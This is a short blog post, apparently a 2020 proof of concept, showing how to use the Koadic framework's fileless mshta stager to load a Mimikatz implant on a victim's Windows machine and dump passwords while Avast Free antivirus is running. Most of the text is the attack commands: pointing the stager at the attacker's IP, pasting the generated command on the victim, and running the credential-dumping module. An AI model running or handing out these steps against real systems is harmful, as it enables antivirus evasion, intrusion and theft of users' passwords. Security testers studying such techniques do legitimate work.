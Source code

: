 ```yaml
---
title: " Inject Mimikatz with Koadic using fileless mshta with Avast Free protection ON "
date: "2020-02-26"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Watch video tutorial here: [Video](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/videos/mimikatz%20with%20koadic.mp4)

We are using js/mshta module as it will serves payloads in memory using MSHTA.exe HTML Applications for us. This poc is test on Avast Free AV and koadic managed to dump the password using Mimikatz implant.

Run koadic and create our payload:

    ./koadic
    use stager/js/mshta
    set srvhost [attacker ip]
    run

Copy the command line and paste on victim machine.

Run mimikatz_dotnet2js:

    use implant/inject/mimikatz_dotnet2js
    set zombie 0
    run

As you can see, we can dump victim's password using this mimikatz module.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mimikatz_koadic.PNG)
